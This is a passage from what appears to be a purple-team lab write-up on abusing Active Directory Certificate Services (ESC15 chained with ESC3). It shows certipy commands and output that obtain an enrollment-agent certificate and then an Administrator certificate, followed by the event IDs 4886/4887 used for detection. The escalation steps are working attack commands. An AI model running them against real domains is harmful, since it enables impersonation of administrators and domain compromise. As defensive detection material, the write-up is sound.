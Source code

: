 ```
1. Request a certificate with the Client Request Agent application policy
```
┌──(kali㉿kali)-[~]
└─$ certipy req -u 'attacker@purpleteam.local' -application-policies "1.3.6.1.4.1.311.20.2.1" -ca DC01-CA -template 'WebServer' -dc-ip 172.16.0.1 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

Password:
[*] Requesting certificate via RPC
[*] Request ID is 62
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'attacker.pfx'
File 'attacker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'attacker.pfx'
```

2. Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
```
└─$ certipy req -u 'attacker@purpleteam.local' -on-behalf-of 'PURPLETEAM\Administrator' -template User -ca DC01-CA -pfx attacker.pfx -dc-ip 172.16.0.1 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

Password:
[*] Requesting certificate via RPC
[*] Request ID is 64
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): yes
[*] Wrote certificate and private key to 'administrator_173a1264-71ca-4757-8255-ac73541f2fdd.pfx'
```

## 14.3 ADCS event logs

For the first step there is an interesting 4886 & 4887 : 

![ESC15_Step1_4886.jpg](ESC15/ESC15_Step1_4886.jpg)

![ESC15_Step1_4887.jpg](ESC15/ESC15_Step1_4887.jpg)

For the second step, there is an interesting 4887 : 

![ESC15_Step2_4887.jpg](ESC15/ESC15_Step2_4887.jpg)
